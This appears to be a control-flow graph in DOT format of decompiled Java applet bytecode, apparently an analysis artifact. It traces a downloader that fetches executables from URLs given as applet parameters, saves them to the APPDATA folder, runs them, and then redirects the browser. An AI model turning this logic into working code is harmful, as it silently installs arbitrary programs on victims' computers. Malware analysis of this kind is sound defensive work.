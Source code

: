 digraph "" {
    "r0 := @this: Java"
    "push \"APPDATA\""
    "r0 := @this: Java"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r1"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "push \"redir\""
    "load.r r0"->"push \"redir\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"redir\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r45"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r45";
    "new java.io.FileOutputStream"
    "store.r r45"->"new java.io.FileOutputStream";
    "store.r $r16"
    "new java.io.FileOutputStream"->"store.r $r16";
    "load.r $r16"
    "store.r $r16"->"load.r $r16";
    "new java.lang.StringBuilder"
    "load.r $r16"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r1"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"file1.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"file1.exe\"";
    "push \"file1.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r5"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r5";
    "new java.net.URL"
    "store.r r5"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"file1\""
    "load.r r0"->"push \"file1\"";
    "push \"file1\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r8"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r8";
    "push 1024"
    "store.r r8"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r9"
    "newarray"->"store.r r9";
    "load.r r8"
    "store.r r9"->"load.r r8";
    "load.r r9"
    "load.r r8"->"load.r r9";
    "push 0"
    "load.r r9"->"push 0";
    "push 0"->"load.r r9";
    "arraylength"
    "load.r r9"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i3"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i3";
    "load.i $i3"
    "store.i $i3"->"load.i $i3";
    "push -1"
    "load.i $i3"->"push -1";
    "ifcmpeq.i load.r r8"
    "push -1"->"ifcmpeq.i load.r r8";
    "ifcmpeq.i load.r r8"->"load.r $r16";
    "load.r $r16"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.i $i3";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i3"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r8"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r8";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r8"->"load.r r8";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r8"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r16";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r16"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r5"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r5";
    "load.r r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"file1.exe\"";
    "push \"file1.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r $r16";
    "store.r $r16"->"load.r $r16";
    "load.r $r16"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"file2.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"file2.exe\"";
    "push \"file2.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r5";
    "store.r r5"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"file2\""
    "load.r r0"->"push \"file2\"";
    "push \"file2\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r8";
    "store.r r8"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r8";
    "load.r r8"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"arraylength";
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i3";
    "store.i $i3"->"load.i $i3";
    "load.i $i3"->"push -1";
    "push -1"->"ifcmpeq.i load.r r8";
    "ifcmpeq.i load.r r8"->"load.r $r16";
    "load.r $r16"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.i $i3";
    "load.i $i3"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r8";
    "ifcmpeq.i load.r r8"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r16";
    "load.r $r16"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r5";
    "load.r r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"file2.exe\"";
    "push \"file2.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r45"
    "dup1.r"->"load.r r45";
    "checkcast"
    "load.r r45"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}

